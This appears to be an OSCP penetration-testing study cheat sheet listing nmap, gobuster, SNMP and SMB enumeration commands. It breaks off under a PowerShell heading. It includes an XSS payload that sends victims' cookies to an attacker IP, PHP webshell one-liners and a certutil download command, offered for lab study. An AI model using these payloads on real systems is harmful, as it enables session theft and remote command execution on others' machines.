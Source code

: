 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon

### NMAP:

Legend: 
```
-sN TCP Null Scan reveals the status of ports without directly querying them
-sV: Probe open ports to determine service/version info
-sC: equivalent to --script=default
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-O: Enable OS detection
-g/--source-port <portnum>: Use given port number
-oA <basename>: Output in the three major formats at once
-A: Enable OS detection, version detection, script scanning, and traceroute
--version-light: Limit to most likely probes (intensity 2)
```

Examples Commands:

```
nmap -sC -sV -oA nmap\machine 10.10.10.1
```
```
nmap -A -T4 -p- -oA nmap\machine 10.10.10.1
```

UDP Scanning:

```
nmap -sU -oA nmap\machine_udp
```

Vulnerability Scanning:

```
sudo nmap --script vuln 10.11.1.10
```

### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Webshells

Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

Simple PHP webshell for command execution

```
<?php system($_REQUEST ['cmd']) ?>
```

```
<?php system($_GET['cmd']); ?>
```

### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```

## Post Exploitation

### Downloading and Transferring Files

Certutil:

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

PowerShell:

